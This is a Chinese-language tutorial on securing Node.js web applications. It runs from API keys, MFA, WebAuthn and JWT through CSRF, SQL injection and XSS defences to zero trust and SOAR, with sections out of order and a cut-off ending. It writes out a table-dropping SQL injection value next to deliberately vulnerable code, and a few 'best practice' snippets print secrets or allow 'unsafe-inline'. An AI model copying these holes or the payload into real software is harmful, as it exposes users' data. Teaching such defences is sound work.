|------|------|--------|---------|
| **Header** | `X-API-Key: abc123` 或 `Authorization: Bearer abc123` | 高 ✅ | 推荐方式 |
| **Query Parameter** | `?api_key=abc123` | 低 ❌ | 简单 API、快速调试 |
| **Cookie** | `Cookie: api_key=abc123` | 中 🟡 | 浏览器端 API 调用 |

```javascript
// Header 方式（推荐）
const response = await fetch('https://api.example.com/data', {
  headers: {
    'X-API-Key': process.env.API_KEY
  }
});

// Query 方式（不推荐，URL 会被记录在日志中）
const response = await fetch(
  `https://api.example.com/data?api_key=${process.env.API_KEY}`
);

// Cookie 方式
const response = await fetch('https://api.example.com/data', {
  credentials: 'include'  // 自动携带 Cookie
});
```

### 20.2 API Key 安全管理

```javascript
// ✅ 最佳实践：环境变量 + 服务端代理
// 客户端永远不直接持有 API Key

// server.js - 服务端代理
app.get('/api/proxy', async (req, res) => {
  const response = await fetch('https://external-api.com/data', {
    headers: { 'X-API-Key': process.env.EXTERNAL_API_KEY }
  });
  const data = await response.json();
  res.json(data);
});

// ❌ 错误做法：API Key 暴露在前端代码中
// const API_KEY = 'sk-abc123';  // 打包后任何人都能看到！
```

### 20.3 API Key 轮转策略

| 策略 | 说明 | 推荐场景 |
|------|------|---------|
| 定期轮转 | 每 30/90 天更换一次 | 内部 API |
| 事件触发轮转 | 泄露/员工离职时更换 | 所有场景 |
| 双 Key 共存 | 新旧 Key 同时有效一段时间 | 零停机轮转 |
| 自动轮转 | 系统自动生成新 Key | 云服务 API |

---

## 21. 多因素认证（MFA/2FA）

### 21.1 认证因素分类

```mermaid
graph TB
    A[认证因素] --> B["🧠 你知道的<br/>Knowledge"]
    A --> C["📱 你拥有的<br/>Possession"]
    A --> D["👆 你自身的<br/>Inherence"]
    
    B --> B1[密码]
    B --> B2[PIN 码]
    B --> B3[安全问题]
    
    C --> C1[手机（短信/APP）]
    C --> C2[硬件安全密钥]
    C --> C3[智能卡]
    
    D --> D1[指纹]
    D --> D2[面部识别]
    D --> D3[虹膜扫描]
```

### 21.2 TOTP 原理（Time-based One-Time Password）

```mermaid
sequenceDiagram
    participant U as 用户
    participant App as 认证器 APP<br/>(Google Authenticator)
    participant S as 服务端

    Note over U,S: 设置阶段
    S->>U: 生成密钥 K（Secret Key）
    U->>App: 扫码/输入密钥 K
    Note over App,S: 双方都保存相同的 K

    Note over U,S: 登录验证阶段
    Note over App: 获取当前时间 T<br/>计算: HMAC-SHA1(K, T/30s)<br/>截取 6 位数字
    U->>S: 输入 6 位验证码
    S->>S: 同样计算 TOTP<br/>比较是否一致
    S->>U: 验证通过/失败
```

```javascript
// TOTP 计算原理
const speakeasy = require('speakeasy');
const QRCode = require('qrcode');

// 1. 生成密钥
const secret = speakeasy.generateSecret({
  name: 'MyApp (user@example.com)',
  length: 20
});

// 2. 生成二维码供用户扫描
const qrCodeUrl = await QRCode.toDataURL(secret.otpauth_url);

// 3. 验证用户输入的 TOTP
function verifyTOTP(userInput, secretBase32) {
  return speakeasy.totp.verify({
    secret: secretBase32,
    encoding: 'base32',
    token: userInput,
    window: 1  // 允许前后各 1 个时间步的误差（30秒）
  });
}
```

### 21.3 MFA 实施流程

```mermaid
graph TD
    A[用户输入用户名/密码] --> B{密码正确？}
    B -->|否| C[拒绝登录]
    B -->|是| D{启用了 MFA？}
    D -->|否| E[直接登录成功]
    D -->|是| F[发送 MFA 挑战]
    F --> G["用户输入验证码"]
    G --> H{验证码正确？}
    H -->|否| I[重试/锁定]
    H -->|是| J[登录成功]
    I -->|超过重试次数| C
```

---

## 22. WebAuthn / Passkeys（无密码认证）

### 22.1 什么是 WebAuthn

WebAuthn 是 W3C 标准，允许使用**生物识别**（指纹、面部）或**硬件密钥**（YubiKey）代替密码。

```mermaid
graph TB
    subgraph 传统密码认证
        A[用户] -->|"输入密码"| B[服务器]
        B -->|"存储密码哈希"| C[(数据库)]
    end
    
    subgraph WebAuthn 无密码认证
        D[用户] -->|"使用指纹/面部"| E[认证器<br/>手机/电脑/密钥]
        E -->|"私钥签名"| F[服务器]
        F -->|"验证签名（公钥）"| G[(数据库)]
    end
```

### 22.2 Passkeys 注册流程

```mermaid
sequenceDiagram
    participant U as 用户
    participant B as 浏览器
    participant S as 服务器

    U->>B: 点击"启用 Passkey"
    B->>S: 请求注册
    S->>B: 返回 challenge + 用户信息
    B->>U: 弹出系统认证提示
    U->>B: 使用指纹/面部识别
    Note over B: 生成密钥对<br/>私钥保存在设备<br/>公钥发送给服务器
    B->>S: 发送公钥 + 签名的 challenge
    S->>S: 保存公钥
    S->>B: 注册成功
```

### 22.3 Passkeys 登录流程

```mermaid
sequenceDiagram
    participant U as 用户
    participant B as 浏览器
    participant S as 服务器

    U->>B: 输入用户名，点击登录
    B->>S: 请求认证
    S->>B: 返回 challenge
    B->>U: 弹出系统认证提示
    U->>B: 使用指纹/面部识别
    Note over B: 用私钥签名 challenge
    B->>S: 发送签名
    S->>S: 用公钥验证签名
    S->>B: 认证成功，返回 Token
```

### 22.4 WebAuthn 实现示例

```javascript
// 服务端 - 使用 @simplewebauthn/server
const {
  generateRegistrationOptions,
  verifyRegistrationResponse,
  generateAuthenticationOptions,
  verifyAuthenticationResponse,
} = require('@simplewebauthn/server');

// 注册
app.post('/register/start', async (req, res) => {
  const options = await generateRegistrationOptions({
    rpName: 'My App',
    rpID: 'example.com',
    userID: req.user.id,
    userName: req.user.email,
    attestationType: 'none',
    authenticatorSelection: {
      residentKey: 'preferred',
      userVerification: 'preferred'
    }
  });
  
  // 保存 challenge 到 session
  req.session.currentChallenge = options.challenge;
  res.json(options);
});

app.post('/register/finish', async (req, res) => {
  const verification = await verifyRegistrationResponse({
    response: req.body,
    expectedChallenge: req.session.currentChallenge,
    expectedOrigin: 'https://example.com',
    expectedRPID: 'example.com'
  });
  
  if (verification.verified) {
    // 保存公钥和凭证 ID 到数据库
    await saveCredential(req.user.id, verification.registrationInfo);
  }
});
```

### 22.5 认证方式安全性对比

| 方式 | 安全等级 | 用户体验 | 防钓鱼 | 防暴力破解 |
|------|---------|---------|--------|-----------|
| 密码 | 🔴 低 | 😐 中 | ❌ | ❌ |
| 密码 + SMS OTP | 🟡 中 | 😐 中 | ❌ | ✅ |
| 密码 + TOTP | 🟡 中 | 😟 低 | ❌ | ✅ |
| Passkeys | 🟢 高 | 😊 高 | ✅ | ✅ |
| 硬件密钥 (FIDO2) | 🟢 最高 | 😟 低 | ✅ | ✅ |


---

## 23. JWT（JSON Web Token）深入

### 23.1 JWT 结构

```mermaid
graph LR
    subgraph JWT 组成
        A["Header<br/>{alg, typ}"] -->|.| B["Payload<br/>{sub, iat, exp, ...}"]
        B -->|.| C["Signature<br/>HMACSHA256(...)"]
    end
```

```
eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJ1c2VyMTIzIn0.signature
|------- Header --------|-------- Payload --------|-- Signature --|
```

### 23.2 JWT 最佳实践

```javascript
const jwt = require('jsonwebtoken');

// ✅ 签发 Token
function signToken(user) {
  return jwt.sign(
    {
      sub: user.id,
      email: user.email,
      role: user.role,
    },
    process.env.JWT_SECRET,
    {
      expiresIn: '1h',           // 短过期时间
      issuer: 'my-app',          // 签发者
      audience: 'my-app-client', // 受众
    }
  );
}

// ✅ 验证 Token
function verifyToken(token) {
  try {
    return jwt.verify(token, process.env.JWT_SECRET, {
      issuer: 'my-app',
      audience: 'my-app-client',
    });
  } catch (err) {
    if (err.name === 'TokenExpiredError') {
      throw new Error('Token 已过期');
    }
    throw new Error('无效的 Token');
  }
}

// ❌ 常见错误
// 1. 使用 'none' 算法 → 禁用
// 2. 在 Payload 中存储敏感信息（JWT 可被解码，只是不可篡改）
// 3. 使用弱密钥
// 4. Token 过期时间过长
```

### 23.3 JWT vs Session 对比

| 特性 | JWT | Session |
|------|-----|---------|
| 存储位置 | 客户端 | 服务端 |
| 可扩展性 | ✅ 无状态 | ❌ 需要共享存储 |
| 撤销 | ❌ 困难（需要黑名单） | ✅ 容易（删除 session） |
| 安全性 | 中（依赖密钥管理） | 高（数据不离开服务端） |
| 适用场景 | 分布式系统、API | 传统 Web 应用 |
| 大小 | 较大（几百字节） | 小（只有 session ID） |

### 23.4 Token 撤销策略

```javascript
// 使用 Redis 黑名单实现 Token 撤销
const Redis = require('ioredis');
const redis = new Redis();

async function revokeToken(token) {
  const decoded = jwt.decode(token);
  const ttl = decoded.exp - Math.floor(Date.now() / 1000);
  
  if (ttl > 0) {
    // 将 Token 加入黑名单，TTL 等于剩余有效期
    await redis.setex(`blacklist:${token}`, ttl, 'revoked');
  }
}

async function isTokenRevoked(token) {
  const result = await redis.get(`blacklist:${token}`);
  return result !== null;
}

// 验证中间件
async function authMiddleware(req, res, next) {
  const token = req.headers.authorization?.split(' ')[1];
  
  if (!token) {
    return res.status(401).json({ error: '未提供 Token' });
  }

  // 检查是否被撤销
  if (await isTokenRevoked(token)) {
    return res.status(401).json({ error: 'Token 已被撤销' });
  }

  try {
    req.user = jwt.verify(token, process.env.JWT_SECRET);
    next();
  } catch (err) {
    res.status(401).json({ error: '无效的 Token' });
  }
}
```

---

## 24. CORS（跨域资源共享）

### 24.1 CORS 工作原理

```mermaid
sequenceDiagram
    participant B as 浏览器
    participant S as 服务端（不同域）

    Note over B,S: 简单请求（GET/POST 且无自定义 Header）
    B->>S: GET /api/data<br/>Origin: https://example.com
    S->>B: 响应头包含<br/>Access-Control-Allow-Origin: https://example.com
    B->>B: ✅ 允许访问

    Note over B,S: 预检请求（Preflight）
    B->>S: OPTIONS /api/data<br/>Origin: https://example.com<br/>Access-Control-Request-Method: PUT<br/>Access-Control-Request-Headers: Content-Type
    S->>B: Access-Control-Allow-Origin: https://example.com<br/>Access-Control-Allow-Methods: GET, POST, PUT<br/>Access-Control-Allow-Headers: Content-Type<br/>Access-Control-Max-Age: 86400
    B->>S: PUT /api/data（实际请求）
    S->>B: 正常响应
```

### 24.2 服务端 CORS 配置

```javascript
const cors = require('cors');

// 开发环境 - 允许所有
app.use(cors());

// 生产环境 - 严格配置
app.use(cors({
  origin: ['https://example.com', 'https://app.example.com'],
  methods: ['GET', 'POST', 'PUT', 'DELETE'],
  allowedHeaders: ['Content-Type', 'Authorization'],
  credentials: true,  // 允许携带 Cookie
  maxAge: 86400,      // 预检缓存 24 小时
}));

// 动态配置
const allowedOrigins = ['https://example.com', 'https://app.example.com'];
app.use(cors({
  origin: (origin, callback) => {
    if (!origin || allowedOrigins.includes(origin)) {
      callback(null, true);
    } else {
      callback(new Error('不允许的跨域请求'));
    }
  }
}));
```

---

## 25. 安全 HTTP 头配置

### 25.1 Helmet.js 配置

```javascript
const helmet = require('helmet');

app.use(helmet({
  // 内容安全策略
  contentSecurityPolicy: {
    directives: {
      defaultSrc: ["'self'"],
      scriptSrc: ["'self'", "'unsafe-inline'", "https://cdn.example.com"],
      styleSrc: ["'self'", "'unsafe-inline'", "https://fonts.googleapis.com"],
      imgSrc: ["'self'", "data:", "https:"],
      fontSrc: ["'self'", "https://fonts.gstatic.com"],
      connectSrc: ["'self'", "https://api.example.com"],
      frameSrc: ["'none'"],
    }
  },
  // 防止点击劫持
  frameguard: { action: 'deny' },
  // 防止 MIME 类型嗅探
  noSniff: true,
  // XSS 过滤
  xssFilter: true,
  // HSTS
  hsts: {
    maxAge: 31536000,  // 1 年
    includeSubDomains: true,
    preload: true
  },
  // 隐藏 X-Powered-By
  hidePoweredBy: true,
}));
```

### 25.2 常见安全头一览

| HTTP 头 | 作用 | 推荐值 |
|---------|------|--------|
| `Content-Security-Policy` | 防止 XSS | `default-src 'self'` |
| `X-Frame-Options` | 防止点击劫持 | `DENY` |
| `X-Content-Type-Options` | 防止 MIME 嗅探 | `nosniff` |
| `Strict-Transport-Security` | 强制 HTTPS | `max-age=31536000; includeSubDomains` |
| `Referrer-Policy` | 控制 Referer 信息 | `strict-origin-when-cross-origin` |
| `Permissions-Policy` | 限制浏览器功能 | `camera=(), microphone=()` |
| `X-XSS-Protection` | XSS 过滤（旧版） | `1; mode=block` |


---

## 26. CSRF（跨站请求伪造）防护

### 26.1 CSRF 攻击原理

```mermaid
sequenceDiagram
    participant V as 受害者
    participant T as 受信任网站
    participant A as 攻击者网站

    V->>T: 1. 登录，获取 Cookie
    Note over V: Cookie 保存在浏览器中
    V->>A: 2. 访问攻击者网站
    A->>A: 3. 构造恶意请求<br/>（如转账请求）
    A->>V: 4. 返回包含隐藏表单的页面
    V->>T: 5. 自动发送请求<br/>（浏览器自动携带 Cookie）
    Note over T: 以为是合法请求！
    T->>V: 6. 执行了非预期操作
```

### 26.2 防护方案

```javascript
// 方案 1: CSRF Token
const csrf = require('csurf');
const csrfProtection = csrf({ cookie: true });

app.get('/form', csrfProtection, (req, res) => {
  res.render('form', { csrfToken: req.csrfToken() });
});

app.post('/process', csrfProtection, (req, res) => {
  // Token 验证通过才继续
  res.send('处理成功');
});

// 方案 2: SameSite Cookie
app.use(session({
  cookie: {
    sameSite: 'strict',  // 或 'lax'
    secure: true,
    httpOnly: true
  }
}));

// 方案 3: 自定义 Header 验证（适用于 SPA）
app.use('/api', (req, res, next) => {
  // 检查自定义 Header（攻击者无法通过表单设置自定义 Header）
  if (!req.headers['x-requested-with']) {
    return res.status(403).json({ error: '缺少 CSRF 保护头' });
  }
  next();
});
```

### 26.3 SameSite Cookie 属性

| 值 | 行为 | 安全性 | 适用场景 |
|---|------|--------|---------|
| `Strict` | 跨站请求完全不发送 Cookie | 最高 | 敏感操作 |
| `Lax` | 顶级导航的 GET 请求会发送 | 高 | 大多数场景（默认） |
| `None` | 始终发送（必须配合 Secure） | 低 | 跨域 API 调用 |

---

## 27. SQL 注入防护

### 27.1 SQL 注入原理

```javascript
// ❌ 危险：字符串拼接
app.get('/user', (req, res) => {
  const query = `SELECT * FROM users WHERE name = '${req.query.name}'`;
  // 如果 name = "'; DROP TABLE users; --"
  // 实际执行: SELECT * FROM users WHERE name = ''; DROP TABLE users; --'
  db.query(query);
});

// ✅ 安全：参数化查询
app.get('/user', (req, res) => {
  db.query('SELECT * FROM users WHERE name = ?', [req.query.name]);
});

// ✅ 安全：使用 ORM
const user = await User.findOne({ where: { name: req.query.name } });
```

### 27.2 常见 SQL 注入类型

| 类型 | 攻击方式 | 防护方法 |
|------|---------|---------|
| **联合查询注入** | `UNION SELECT` 获取其他表数据 | 参数化查询 |
| **布尔盲注** | 通过 true/false 判断推断数据 | 参数化查询 |
| **时间盲注** | 通过延迟判断推断数据 | 参数化查询 |
| **堆叠查询** | 执行多条 SQL 语句 | 禁用多语句执行 |
| **二次注入** | 存储后在另一处被拼接 | 始终使用参数化查询 |

---

## 28. 安全编码检查清单

### 28.1 OWASP Top 10 (2021) 速查

| 排名 | 风险 | 核心防护措施 |
|------|------|-------------|
| A01 | 失效的访问控制 | 最小权限原则、RBAC、服务端验证 |
| A02 | 加密机制失效 | HTTPS、bcrypt/argon2、密钥管理 |
| A03 | 注入 | 参数化查询、输入验证、ORM |
| A04 | 不安全设计 | 威胁建模、安全设计评审 |
| A05 | 安全配置错误 | 最小化配置、禁用默认账户、Helmet |
| A06 | 脆弱和过时的组件 | npm audit、依赖更新、SBOM |
| A07 | 身份识别和认证失败 | MFA、密码策略、会话管理 |
| A08 | 软件和数据完整性失败 | CI/CD 安全、代码签名、供应链安全 |
| A09 | 安全日志和监控失败 | 集中日志、告警、审计追踪 |
| A10 | 服务端请求伪造（SSRF） | URL 白名单、网络隔离 |

### 28.2 安全编码实践

```javascript
// ✅ 密码哈希
const argon2 = require('argon2');

async function hashPassword(password) {
  return await argon2.hash(password, {
    type: argon2.argon2id,  // 推荐使用 argon2id
    memoryCost: 65536,      // 64 MB
    timeCost: 3,            // 3 次迭代
    parallelism: 4          // 4 个线程
  });
}

async function verifyPassword(password, hash) {
  return await argon2.verify(hash, password);
}

// ✅ 安全的随机数生成
const crypto = require('crypto');

function generateToken(bytes = 32) {
  return crypto.randomBytes(bytes).toString('hex');
}

function generateOTP(length = 6) {
  const buffer = crypto.randomBytes(length);
  let otp = '';
  for (let i = 0; i < length; i++) {
    otp += (buffer[i] % 10).toString();
  }
  return otp;
}

// ✅ 安全的比较（防止时序攻击）
function safeCompare(a, b) {
  return crypto.timingSafeEqual(
    Buffer.from(a, 'utf-8'),
    Buffer.from(b, 'utf-8')
  );
}
```


---

## 29. 安全存储与密钥管理

### 29.1 密钥管理最佳实践

```mermaid
graph TB
    A[密钥管理] --> B[生成]
    A --> C[存储]
    A --> D[轮转]
    A --> E[审计]

    B --> B1["使用 CSPRNG<br/>crypto.randomBytes()"]
    C --> C1["环境变量"]
    C --> C2["密钥管理服务<br/>AWS KMS / HashiCorp Vault"]
    C --> C3["硬件安全模块 HSM"]
    D --> D1["定期轮转"]
    D --> D2["自动化轮转"]
    E --> E1["访问日志"]
    E --> E2["异常检测"]
```

### 29.2 环境变量管理

```javascript
// ❌ 错误：硬编码密钥
const API_KEY = 'sk-abc123def456';
const DB_PASSWORD = 'myPassword123';

// ❌ 错误：提交 .env 到 Git
// .env 文件应该在 .gitignore 中

// ✅ 正确：使用环境变量
const API_KEY = process.env.API_KEY;
const DB_PASSWORD = process.env.DB_PASSWORD;

// ✅ 使用 dotenv 管理本地开发环境
require('dotenv').config();

// ✅ 使用 convict 进行配置验证
const convict = require('convict');

const config = convict({
  env: {
    doc: '应用环境',
    format: ['production', 'development', 'test'],
    default: 'development',
    env: 'NODE_ENV'
  },
  port: {
    doc: '服务端口',
    format: 'port',
    default: 3000,
    env: 'PORT'
  },
  db: {
    host: { format: String, default: 'localhost', env: 'DB_HOST' },
    password: { format: String, sensitive: true, env: 'DB_PASSWORD' }
  },
  jwt: {
    secret: { format: String, sensitive: true, env: 'JWT_SECRET' },
    expiresIn: { format: String, default: '1h', env: 'JWT_EXPIRES_IN' }
  }
});

config.validate({ allowed: 'strict' });
```

### 29.3 HashiCorp Vault 集成

```javascript
// 使用 node-vault 连接 Vault
const vault = require('node-vault')({
  endpoint: 'https://vault.example.com',
  token: process.env.VAULT_TOKEN
});

// 读取密钥
async function getSecret(path) {
  try {
    const result = await vault.read(`secret/data/${path}`);
    return result.data.data;
  } catch (err) {
    console.error('读取密钥失败:', err.message);
    throw err;
  }
}

// 使用示例
const dbCredentials = await getSecret('database/creds/myapp');
const jwtSecret = await getSecret('app/secrets');

// 自动轮转数据库密码
async function rotateDbPassword() {
  const result = await vault.write('database/rotate-role/myapp');
  console.log('数据库密码已轮转');
}
```

### 29.4 AWS Secrets Manager

```javascript
const { SecretsManagerClient, GetSecretValueCommand } = require('@aws-sdk/client-secrets-manager');

const client = new SecretsManagerClient({ region: 'ap-northeast-1' });

async function getSecret(secretName) {
  try {
    const response = await client.send(
      new GetSecretValueCommand({ SecretId: secretName })
    );
    return JSON.parse(response.SecretString);
  } catch (err) {
    console.error('获取密钥失败:', err.message);
    throw err;
  }
}

// 使用
const secrets = await getSecret('prod/myapp/secrets');
console.log(secrets.DB_PASSWORD);
console.log(secrets.JWT_SECRET);
```

---

## 30. 安全审计与合规

### 30.1 安全审计日志

```javascript
// 安全审计日志记录
const winston = require('winston');

const securityLogger = winston.createLogger({
  level: 'info',
  format: winston.format.json(),
  defaultMeta: { service: 'security-audit' },
  transports: [
    new winston.transports.File({ filename: 'security-audit.log' }),
    new winston.transports.Console()
  ]
});

// 记录安全事件
function logSecurityEvent(event) {
  securityLogger.info({
    timestamp: new Date().toISOString(),
    ...event
  });
}

// 使用示例
logSecurityEvent({
  event: 'LOGIN_SUCCESS',
  userId: 'user123',
  ip: '192.168.1.100',
  userAgent: 'Mozilla/5.0...'
});

logSecurityEvent({
  event: 'LOGIN_FAILED',
  email: 'user@example.com',
  ip: '192.168.1.100',
  reason: 'INVALID_PASSWORD',
  attemptCount: 3
});

logSecurityEvent({
  event: 'PERMISSION_DENIED',
  userId: 'user123',
  resource: '/admin/users',
  action: 'DELETE'
});
```

### 30.2 安全事件类型

| 事件类型 | 说明 | 严重级别 |
|---------|------|---------|
| `LOGIN_SUCCESS` | 登录成功 | 信息 |
| `LOGIN_FAILED` | 登录失败 | 警告 |
| `LOGIN_LOCKED` | 账户锁定 | 警告 |
| `PASSWORD_CHANGED` | 密码修改 | 信息 |
| `MFA_ENABLED` | 启用 MFA | 信息 |
| `PERMISSION_DENIED` | 权限拒绝 | 警告 |
| `TOKEN_REVOKED` | Token 撤销 | 信息 |
| `SUSPICIOUS_ACTIVITY` | 可疑活动 | 严重 |
| `DATA_EXPORT` | 数据导出 | 警告 |
| `CONFIG_CHANGED` | 配置变更 | 警告 |


---

## 31. 常见安全漏洞防护速查表

### 31.1 XSS（跨站脚本攻击）防护

```javascript
// ❌ 危险：直接插入用户输入
element.innerHTML = userInput;

// ✅ 安全：使用 textContent
element.textContent = userInput;

// ✅ 安全：使用 DOMPurify 清理 HTML
import DOMPurify from 'dompurify';
element.innerHTML = DOMPurify.sanitize(userInput);

// ✅ 服务端输出编码
const escapeHtml = (str) => {
  return str
    .replace(/&/g, '&amp;')
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;')
    .replace(/"/g, '&quot;')
    .replace(/'/g, '&#039;');
};
```

| XSS 类型 | 攻击方式 | 防护方法 |
|---------|---------|---------|
| **存储型** | 恶意脚本存入数据库 | 输出编码、CSP |
| **反射型** | URL 参数包含脚本 | 输入验证、输出编码 |
| **DOM 型** | 前端 JS 直接操作 DOM | 避免 innerHTML、使用 textContent |

### 31.2 点击劫持防护

```javascript
// 服务端设置 X-Frame-Options
app.use((req, res, next) => {
  res.setHeader('X-Frame-Options', 'DENY');
  next();
});

// 或使用 CSP frame-ancestors
app.use((req, res, next) => {
  res.setHeader('Content-Security-Policy', "frame-ancestors 'none'");
  next();
});
```

### 31.3 开放重定向防护

```javascript
// ❌ 危险：直接使用用户输入的 URL 重定向
app.get('/redirect', (req, res) => {
  res.redirect(req.query.url);  // 可能重定向到恶意网站
});

// ✅ 安全：验证重定向 URL
function isSafeRedirect(url, allowedHosts) {
  try {
    const parsed = new URL(url, 'https://example.com');
    return allowedHosts.includes(parsed.hostname);
  } catch {
    return false;
  }
}

app.get('/redirect', (req, res) => {
  const { url } = req.query;
  if (url && isSafeRedirect(url, ['example.com', 'app.example.com'])) {
    res.redirect(url);
  } else {
    res.redirect('/');
  }
});
```

### 31.4 限流与防暴力破解

```javascript
const rateLimit = require('express-rate-limit');
const slowDown = require('express-slow-down');

// 登录接口限流
const loginLimiter = rateLimit({
  windowMs: 15 * 60 * 1000,  // 15 分钟
  max: 5,                      // 最多 5 次尝试
  message: '登录尝试过多，请 15 分钟后重试',
  standardHeaders: true,
  legacyHeaders: false,
});

// 登录接口减速（渐进式延迟）
const loginSlowDown = slowDown({
  windowMs: 15 * 60 * 1000,
  delayAfter: 3,      // 第 3 次后开始延迟
  delayMs: (hits) => hits * 500,  // 每次增加 500ms
});

app.post('/api/login', loginSlowDown, loginLimiter, async (req, res) => {
  // 登录逻辑
});

// 账户锁定机制
async function handleFailedLogin(email) {
  const user = await User.findByEmail(email);
  user.failedLoginAttempts = (user.failedLoginAttempts || 0) + 1;
  
  if (user.failedLoginAttempts >= 5) {
    user.lockedUntil = new Date(Date.now() + 30 * 60 * 1000); // 锁定 30 分钟
    await user.save();
    throw new Error('账户已锁定，请 30 分钟后重试');
  }
  
  await user.save();
}
```


---

## 18. 零信任架构（Zero Trust Architecture）

### 18.1 什么是零信任

零信任是一种安全模型，核心理念是"永不信任，始终验证"。无论请求来自内部还是外部网络，都需要进行身份验证和授权。

```mermaid
graph TD
    A[传统安全模型] --> B[边界防护]
    B --> C{在网络边界内?}
    C -->|是| D[信任]
    C -->|否| E[拒绝]

    F[零信任模型] --> G[每次访问都验证]
    G --> H{身份验证}
    H --> I{设备验证}
    I --> J{权限检查}
    J --> K{持续监控}
    K --> L[最小权限访问]
```

### 18.2 零信任核心原则

| 原则 | 说明 | 实现方式 |
|------|------|----------|
| **永不信任** | 默认不信任任何用户或设备 | 每次请求都需验证身份 |
| **始终验证** | 持续验证用户身份和设备状态 | MFA + 设备健康检查 |
| **最小权限** | 只授予完成任务所需的最小权限 | RBAC + ABAC |
| **微分段** | 将网络分割成小的安全区域 | 微服务 + 容器隔离 |
| **持续监控** | 实时监控所有活动 | SIEM + 行为分析 |

### 18.3 微分段（Micro-segmentation）

```javascript
// 微分段策略示例
const segmentationPolicy = {
  // 定义网络段
  segments: {
    'web-tier': {
      allowedConnections: ['api-tier'],
      ports: [443],
      protocols: ['HTTPS'],
    },
    'api-tier': {
      allowedConnections: ['db-tier', 'cache-tier'],
      ports: [3000, 5432, 6379],
      protocols: ['HTTP', 'PostgreSQL', 'Redis'],
    },
    'db-tier': {
      allowedConnections: [],
      ports: [5432],
      protocols: ['PostgreSQL'],
      // 只允许来自 api-tier 的连接
    },
  },

  // 访问控制规则
  rules: [
    {
      source: 'web-tier',
      destination: 'api-tier',
      action: 'ALLOW',
      conditions: {
        authenticated: true,
        deviceCompliant: true,
      },
    },
    {
      source: '*',
      destination: 'db-tier',
      action: 'DENY',
      log: true,
    },
  ],
};
```

### 18.4 持续验证

```javascript
// 持续验证中间件
class ContinuousVerification {
  constructor(options) {
    this.sessionStore = options.sessionStore;
    this.deviceTrust = options.deviceTrust;
    this.riskEngine = options.riskEngine;
  }

  async verify(req, res, next) {
    const session = req.session;

    // 1. 验证会话有效性
    if (!session || !session.userId) {
      return res.status(401).json({ error: '未认证' });
    }

    // 2. 检查会话是否过期
    if (Date.now() - session.lastActivity > 30 * 60 * 1000) {
      return res.status(401).json({ error: '会话已过期' });
    }

    // 3. 验证设备信任状态
    const deviceTrusted = await this.deviceTrust.check(req.fingerprint);
    if (!deviceTrusted) {
      return res.status(403).json({ error: '设备不受信任' });
    }

    // 4. 风险评估
    const riskScore = await this.riskEngine.evaluate({
      userId: session.userId,
      ip: req.ip,
      userAgent: req.headers['user-agent'],
      action: req.path,
      timestamp: Date.now(),
    });

    // 5. 根据风险等级决定是否需要重新验证
    if (riskScore > 0.7) {
      return res.status(403).json({
        error: '需要额外验证',
        requiredAction: 'mfa',
      });
    }

    // 6. 更新活动时间
    session.lastActivity = Date.now();

    next();
  }
}
```

### 18.5 SASE（安全访问服务边缘）

```mermaid
graph TD
    A[用户/设备] --> B[SASE 平台]
    B --> C[SD-WAN<br>软件定义广域网]
    B --> D[ZTNA<br>零信任网络访问]
    B --> E[SSE<br>安全服务边缘]
    B --> F[CASB<br>云访问安全代理]

    C --> G[优化网络连接]
    D --> H[身份验证 + 授权]
    E --> I[防火墙 + 检测]
    F --> J[云应用安全]

    G --> K[目标资源]
    H --> K
    I --> K
    J --> K
```

| SASE 组件 | 功能 | 典型供应商 |
|-----------|------|-----------|
| **SD-WAN** | 智能路由、带宽优化 | Cisco Viptela, VMware VeloCloud |
| **ZTNA** | 零信任访问控制 | Zscaler, Cloudflare Access |
| **CASB** | 云应用安全审计 | Microsoft Defender, Netskope |
| **SWG** | Web 流量过滤 | Zscaler, Palo Alto Prisma |
| **FWaaS** | 云端防火墙 | Fortinet, Check Point |

---

## 19. 安全编排（SOAR）

### 19.1 SOAR 概述

SOAR（Security Orchestration, Automation and Response）是安全编排、自动化与响应平台，用于整合安全工具和自动化安全流程。

```mermaid
graph LR
    A[安全事件] --> B[SOAR 平台]
    B --> C[编排 Orchestration]
    B --> D[自动化 Automation]
    B --> E[响应 Response]

    C --> C1[整合安全工具]
    C --> C2[统一工作流]

    D --> D1[自动分类]
    D --> D2[自动调查]
    D --> D3[自动修复]

    E --> E1[告警管理]
    E --> E2[事件响应]
    E --> E3[报告生成]
```

### 19.2 SIEM 与 SOAR 集成

```javascript
// SIEM 事件处理工作流
const siemWorkflow = {
  // 1. 事件接收
  async onAlert(alert) {
    console.log(`收到告警: ${alert.type} - ${alert.severity}`);

    // 2. 事件分类
    const category = this.classifyAlert(alert);

    // 3. 自动调查
    const investigation = await this.investigate(alert, category);

    // 4. 风险评估
    const risk = this.assessRisk(investigation);

    // 5. 自动响应
    if (risk.level === 'critical') {
      await this.criticalResponse(alert, investigation);
    } else if (risk.level === 'high') {
      await this.highRiskResponse(alert, investigation);
    } else {
      await this.standardResponse(alert, investigation);
    }

    // 6. 记录和报告
    await this.generateReport(alert, investigation, risk);
  },

  classifyAlert(alert) {
    const rules = {
      'brute_force': { category: 'authentication', severity: 'high' },
      'malware': { category: 'endpoint', severity: 'critical' },
      'data_exfiltration': { category: 'data', severity: 'critical' },
      'insider_threat': { category: 'user', severity: 'high' },
      'phishing': { category: 'email', severity: 'medium' },
    };
    return rules[alert.type] || { category: 'unknown', severity: 'low' };
  },

  async investigate(alert, category) {
    const results = {
      affectedSystems: await this.getAffectedSystems(alert),
      relatedEvents: await this.getRelatedEvents(alert),
      userActivity: await this.getUserActivity(alert),
      threatIntel: await this.getThreatIntelligence(alert),
    };
    return results;
  },

  assessRisk(investigation) {
    let score = 0;
    if (investigation.affectedSystems.length > 5) score += 30;
    if (investigation.threatIntel.matched) score += 40;
    if (investigation.userActivity.suspicious) score += 20;
    if (investigation.relatedEvents.count > 10) score += 10;

    return {
      score,
      level: score >= 80 ? 'critical' : score >= 50 ? 'high' : 'medium',
    };
  },

  async criticalResponse(alert, investigation) {
    // 自动隔离受影响系统
    await this.isolateSystems(investigation.affectedSystems);

    // 通知安全团队
    await this.notifySecurityTeam(alert, 'critical');

    // 创建事件工单
    await this.createIncidentTicket(alert, investigation);

    // 启动取证收集
    await this.startForensics(investigation);
  },
};
```

### 19.3 自动化响应流程

```mermaid
graph TD
    A[安全事件触发] --> B{事件严重程度}
    B -->|低| C[自动记录]
    B -->|中| D[自动调查]
    B -->|高| E[自动响应]
    B -->|严重| F[紧急响应]

    C --> C1[记录日志]
    C --> C2[更新指标]

    D --> D1[收集证据]
    D --> D2[关联分析]
